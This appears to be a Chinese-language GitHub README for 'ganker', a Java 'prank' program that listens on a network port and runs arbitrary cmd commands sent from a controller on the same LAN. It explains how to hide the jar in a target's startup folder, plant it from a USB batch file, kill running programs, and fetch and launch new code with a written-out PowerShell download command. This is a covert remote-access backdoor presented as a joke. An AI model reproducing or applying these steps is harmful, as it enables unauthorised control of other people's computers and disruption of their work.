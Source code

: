 # ganker
一個能煩死別人的小程式  
能從遠端朝惡作劇目標電腦定時放音樂，或執行cmd指令

## 各檔用途
* `ganker.java`  
一個沒有gui的java程式，監聽預設port`8787`來執行命令，port可由執行參數中修改  
**執行時需於jar檔案路徑`/music/`內放入名為`music`的`wav`格式聲音檔，作為gank時播放使用**
* `gankerController.java`  
控制`ganker`用的程式，可以下達`ganker命令`，將於後方說明  
啟動時預設連線`localhost:8787`，可於執行參數中修改
* `gankerControllerController.java`  
控制`gankerController`用的程式，可掃描目前同區域網路下的`ganker`，並開啟對應的`gankerController`  
啟動時預設掃描port`8787`，可於執行參數中修改  
**此檔案編譯時需要用classpath連結`gankerController.java`**

## ganker命令
* `整數`  
將於`整數`毫秒後開始播放音樂
* `cmd:指令`  
將執行`指令`內容，如果在windows下將於cmd內執行  
**注意：有些命令不被支援，可以嘗試呼叫新的cmd後再執行不支援的命令**
* `stop`  
停止播放音樂
* `exit`
結束`ganker`程式

## 使用方法
在要惡作劇的目標電腦上執行`ganker.jar`，或是更派一點，把`ganker.jar`放到開機自動啟動資料夾  
再在同區域網路內其他台電腦（或是惡作劇目標本身也行）上執行`gankerController.jar`，如果不在惡作劇目標電腦上執行，記得在執行時給予`gankerController`IP參數，指向惡作劇目標，如果`ganker`的port設定不是預設的`8787`，記得也要改`gankerController`的第二個參數  
然後就可以輸入`ganker命令`了  
如果不知道惡作劇目標在區域網路的哪個IP，可以使用`gankerControllerController`來尋找

# 詳細使用方式
## ganker.jar
命令列：`java -jar ganker.jar [port]`  
`port`預設為`8787`  
如果指定`port`已被佔用的話，`ganker`會嘗試以關閉`ganker`的方式關閉他，意思就是啟動第二個`ganker`時第一個就會關閉，也可以用這方法來重啟`ganker`（更新時會用到）

## gankerController.jar
命令列：`java -jar gankerController.jar [ip] [port]`  
`ip`預設為`localhost`  
`port`預設為`8787`  
GUI操作：
* 左上文字框：指令輸入  
可用enter送出，上下鍵從歷史紀錄選擇上/下一條指令
* 右上文字框：當左邊輸入數字時，將會乘以右邊的倍率送出（預設倍率為毫秒->分鐘）
* send按鈕：送出命令
* stop按鈕：快速鍵，送出停止播放命令
* check按鈕：檢查目標`ganker`是否還活著
* exit按鈕：快速鍵，送出關閉`ganker`命令

## gankerControllerController.jar
命令列：`java -jar gankerControllerController.jar [port]`  
`port`預設為`8787`
GUI操作：
* 選項`reload`  
重新掃描區域網路下的`ganker`
* 選項`ip:port`  
開啟相對的`gankerController`

# 應用方式
基本用法：可以把惡作劇目標電腦開滿計算機，或是在使用到一半開始抬棺等等  
進階用法：用taskkill指令砍掉正在運作的程式  
超強用法：呼叫powershell下載檔案，也可以用這方法遠端更新`ganker`  
快速植入：寫一個batch檔在隨身碟，一執行就把`ganker`丟到開機自動啟動資料夾，然後執行

# 遠端更新ganker方式
**必須要先確保對方能用網路連到你的電腦**  
## Windows：  
1. 使用[fileServer](https://github.com/HSSLC/simple-java-file-server/)，或是自己架簡單的檔案伺服器，反正要能從網路取得資源就是了  
2. 然後將新的`ganker.jar`放入檔案伺服器的檔案系統，然後啟動檔案伺服器  
3. 在`gankerController`中輸入`cmd:powershell -Command "(New-Object net.WebClient).downloadFile('這裡填入你的ganker.jar網路資源', 'ganker.jar')"`  
例子：`cmd:powershell -Command "(New-Object net.WebClient).downloadFile('http://192.168.0.87/ganker.jar', 'ganker.jar')"`  
4. 然後在`gankerController`中輸入`cmd:javaw -jar ganker.jar`重啟ganker
## 其他系統：
看到**其他**這兩個字就知道發生什麼事了吧  
對，窩不知道其他系統怎麼打指令，反正原理就是這樣，自行變通一下吧

# 警語
不要玩太過頭喔

# 更多資訊
https://incognitas.net/works/ganker-1/
